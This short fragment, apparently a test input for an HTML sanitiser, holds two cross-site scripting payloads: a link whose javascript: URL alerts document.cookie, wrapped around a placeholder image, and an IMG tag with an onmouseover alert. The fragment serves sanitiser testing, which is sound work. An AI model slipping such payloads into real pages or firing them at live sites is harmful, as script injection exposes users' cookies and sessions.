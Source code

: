 
<a href="javascript:alert(document.cookie)"><img align="left" width="100" height="100" src="http://www.fillmurray.com/100/100"></a>

<IMG SRC=# onmouseover="alert('xxs')">
